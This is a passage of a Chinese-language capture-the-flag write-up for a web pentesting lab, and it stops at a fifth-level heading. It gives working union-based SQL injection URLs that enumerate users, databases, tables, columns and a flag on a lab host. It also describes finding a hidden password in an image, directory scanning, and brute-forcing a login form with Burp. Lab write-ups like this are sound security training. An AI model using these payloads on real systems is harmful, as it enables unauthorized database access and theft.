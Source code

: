 
查询当前用户,数据库版本,当前数据库名,其payload为:
```
http://192.168.239.131/pentest/test/sqli/sqltamp.php?gid=1'  union select 1,user(),version(),database()--+
```

当前用户:root@localhost
版本为:5.5.53
数据库名:pentesterlab
查所有数据库库名:
```
http://192.168.239.131/pentest/test/sqli/sqltamp.php?gid=1'  union select 1,2,3,group_concat(schema_name)from information_schema.schemata --+

```
得到的数据库为:
information_schema,beecms,dedecmsv57gbk,dedecmsv57gbksp1,deescms,discuz,
ecshop1,haidao,hiwiki,merinfo3,metinfo1,metinfo2,metinfoxiugai,mysql,
ourphp,pentesterlab,performance_schema,php168,phpwind,qibo,seacms,
test,ultrax,wanzhong,wiki,wiki11

查当前数据库中的表:
```
http://192.168.239.131/pentest/test/sqli/sqltamp.php?gid=1'  union select 1,2,3,group_concat(table_name)from information_schema.tables where table_schema='pentesterlab'--+
```
得到的当前数据库pentesterlab中的所有表名:comment,flag,goods,user

查找flag表中的列名:
```
http://192.168.239.131/pentest/test/sqli/sqltamp.php?gid=1'  union select 1,2,3,group_concat(column_name)from information_schema.columns where table_name='flag'--+
```

结果为:id,flag
查看其值:
```
http://192.168.239.131/pentest/test/sqli/sqltamp.php?gid=1'  union select 1,2,3,group_concat(id,0x7e,flag)from flag--+
```

结果为:
1~204f704fbbcf6acf398ffee11989b377

## 第二关: 从图中你能找到什么?
将图片保存到本地,notepad++打开就发现密码啦,官方说这道题有问题....
![image](https://wx1.sinaimg.cn/large/0078beR7ly1fz49p6ni54j30fz04sglt.jpg)
## 第三关:你看到了什么?
查看源代码,原来是要扫目录呀,我用的是Windows系统,直接用御剑跑,Linux下可以用dirb或者dirbuster去跑

扫到了这个test目录,得到提示把目录名md5加密
![image](https://ws3.sinaimg.cn/large/0078beR7ly1fz49qx72ccj30nz0bdt9h.jpg)
访问加密后的值得到flag
![image](https://ws1.sinaimg.cn/large/0078beR7ly1fz49rsttp7j30xi0f2q5d.jpg)
## 第四关:告诉你了FLAG是5位数
遇到表单上burp爆破
![image](https://wx2.sinaimg.cn/large/0078beR7ly1fz49tu3be9j30nw0j10tu.jpg)
得到用户名admin.密码admin123
但是登录了没反应,后来发现是源码有问题,作者将flag注释了......
![image](https://ws2.sinaimg.cn/large/0078beR7ly1fz49u05s0uj30te0ekt93.jpg)
## 第五关:一个优点小小的特殊的注入
